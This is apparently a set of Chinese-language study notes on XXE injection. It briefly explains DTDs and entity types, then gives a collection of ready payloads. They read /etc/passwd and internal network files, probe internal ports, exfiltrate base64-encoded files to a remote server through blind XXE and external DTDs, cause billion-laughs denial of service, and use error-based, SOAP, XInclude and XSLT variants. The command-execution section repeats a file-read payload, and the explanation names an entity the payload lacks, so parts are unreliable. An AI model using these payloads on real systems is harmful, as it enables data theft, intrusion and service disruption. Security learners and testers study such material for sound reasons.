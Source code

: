 ## 基础
XXE(XML External Entity Injection)全称为XML外部实体注入，由于程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生的。
PHP 中 XXE标志函数 `simplexml_load_string()`
### DTD
文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。
DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。
#### 内部的DOCTYPE声明
DTD 被包含在您的 XML 源文件中
```xml
<!DOCTYPE 根元素 [元素声明]>
```

#### 外部文档声明
假如 DTD 位于 XML 源文件的外部
```xml
<!DOCTYPE 根元素 SYSTEM "文件名">
```

**DTD的作用：**
- 通过 DTD，您的每一个 XML 文件均可携带一个有关其自身格式的描述。
- 通过 DTD，独立的团体可一致地使用某个标准的 DTD 来交换数据。
- 您的应用程序也可使用某个标准的 DTD 来验证从外部接收到的数据
- 您还可以使用 DTD 来验证您自身的数据
#### 实体
- 内置实体 (Built-in entities)
- 字符实体 (Character entities)
- 通用实体 (General entities)
- 参数实体 (Parameter entities)
实体根据引用方式，还可分为内部实体与外部实体，看看这些实体的申明方式
参数实体用`%实体名称`申明，引用时也用`%实体名称`;其余实体直接用`实体名称`申明，引用时用`&实体名称`。  
参数实体只能在DTD中申明，DTD中引用；其余实体只能在DTD中申明，可在xml文档中引用。
内部实体
```xml
<!ENTITY 实体名称 "实体的值">
```
外部实体
```xml
<!ENTITY 实体名称 SYSTEM "URI">
```
参数实体
```xml
<!ENTITY % 实体名称 "实体的值">或者<!ENTITY % 实体名称 SYSTEM "URI">
```

>注意：`%name`（参数实体）是在DTD中被引用的，而`&name`（其余实体）是在xml文档中被引用的。
由于xxe漏洞主要是利用了DTD引用外部实体导致的漏洞，那么重点看下能引用哪些类型的外部实体。

![](attachments/Pasted%20image%2020240319191658.jpg)

![](attachments/Pasted%20image%2020240319191724.jpg)

## XXE利用
### 读取任意文件
file 协议，file:///etc//passwd  
php 协议，php://filter/read=convert.base64-encode/resource=index.php
```xml
<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>

```

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <name>&xxe;</name>
</root>

```

### 执行系统命令
在特殊的配置环境下，PHP环境中PHP的expect模块被加载到了易受攻击的系统或者能处理XML的应用中，就能执行命令
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <name>&xxe;</name>
</root>
```

### 探测内网端口
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://192.168.199.100:80">]>
<root>
<name>&xxe;</name>
</root>
```
内网信息
```
file:///etc/hosts

file:///proc/net/arp

file:///proc/net/tcp

file:///proc/net/udp

file:///proc/net/dev

file:///proc/net/fib_trie
```

### Blind XXE
#### php://filter + 外部实体
```XML
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/xxe/test.php">
<!ENTITY % remote SYSTEM "http://ip/xxe.dtd">
%remote;
%all;
%send;
]>
```

```XML
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://IP/?a=%file;'>">
```

 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 xxe.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `%`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果


### CDATA
特殊子元塞入CDATA解决读取问题
```XML
<!DOCTYPE data [
 <!ENTITY % dtd SYSTEM "http://kaibro.tw/cdata.dtd">
     %dtd;
     %all;
 ]>
<root>&f;</root>
```

```XML
<!ENTITY % file SYSTEM "file:///var/www/html/flag.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY f '%start;%file;%end;'>">
```

### DOS
```XML
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### Error-based XXE
```XML
<?xml version="1.0"?>
<!DOCTYPE message [ 
	<!ELEMENT message ANY> 
	<!ENTITY % para1 SYSTEM "file:///flag"> 
	<!ENTITY % para ' 
		<!ENTITY &#x25; para2 "
			<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>
		"> &#x25;para2; 
	'> 
%para;]>
<message>10</message>
```

### SOAP
```XML
<soap:Body>
<foo>
<![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://kaibro.tw:22/"> %dtd;]><xxx/>]]>
</foo>
</soap:Body>
```

### XInclude
```XML
<?xml version="1.0" encoding="UTF-8"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="http://kaibro.tw/file.xml"></xi:include>
</root>
```

### XSLT
```XML
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```